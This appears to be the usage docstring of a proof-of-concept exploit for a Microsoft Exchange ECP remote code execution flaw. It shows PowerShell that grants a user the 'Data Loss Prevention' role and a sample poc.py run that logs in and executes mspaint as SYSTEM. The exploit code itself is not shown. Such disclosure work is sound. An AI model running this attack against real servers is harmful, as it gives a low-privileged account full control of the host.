     The (ab)user needs the "Data Loss Prevention" role assigned and if performing the attack over the ecp interface (this poc) then the user will need an active mailbox.

    [PS] C:\Windows\system32>New-RoleGroup -Name "dlp users" -Roles "Data Loss Prevention" -Members "harrym"

    Name      AssignedRoles          RoleAssignments                  ManagedBy
    ----      -------------          ---------------                  ---------
    dlp users {Data Loss Prevention} {Data Loss Prevention-dlp users} {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}

    [PS] C:\Windows\system32>Get-RoleGroup "dlp users" | Format-List

    RunspaceId                  : 098e1140-30e3-4144-8028-2174fdb43b85
    ManagedBy                   : {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}
    RoleAssignments             : {Data Loss Prevention-dlp users}
    Roles                       : {Data Loss Prevention}
    DisplayName                 :
    ExternalDirectoryObjectId   :
    Members                     : {exchangedemo.com/Users/Harry Mull}
    SamAccountName              : dlp users
    Description                 :
    RoleGroupType               : Standard
    LinkedGroup                 :
    Capabilities                : {}
    LinkedPartnerGroupId        :
    LinkedPartnerOrganizationId :
    Identity                    : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
    IsValid                     : True
    ExchangeVersion             : 0.10 (14.0.100.0)
    Name                        : dlp users
    DistinguishedName           : CN=dlp users,OU=Microsoft Exchange Security Groups,DC=exchangedemo,DC=com
    Guid                        : fa5c8458-8255-4ffd-b128-2a66bf9dbfd6
    ObjectCategory              : exchangedemo.com/Configuration/Schema/Group
    ObjectClass                 : {top, group}
    WhenChanged                 : 6/12/2020 11:29:31 PM
    WhenCreated                 : 6/12/2020 11:29:31 PM
    WhenChangedUTC              : 6/12/2020 3:29:31 PM
    WhenCreatedUTC              : 6/12/2020 3:29:31 PM
    OrganizationId              :
    Id                          : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
    OriginatingServer           : DEAD01.exchangedemo.com
    ObjectState                 : Changed

    # Example:

    researcher@incite:~$ ./poc.py
    (+) usage: ./poc.py <target> <user:pass> <cmd>
    (+) eg: ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint

    researcher@incite:~$ ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint
    (+) logged in as harrym@exchangedemo.com
    (+) found the __viewstate: /wEPDwUILTg5MDAzMDFkZFAeyPS7/eBJ4lPNRNPBjm8QiWLWnirQ1vsGlSyjVxa5
    (+) executed mspaint as SYSTEM!
    """
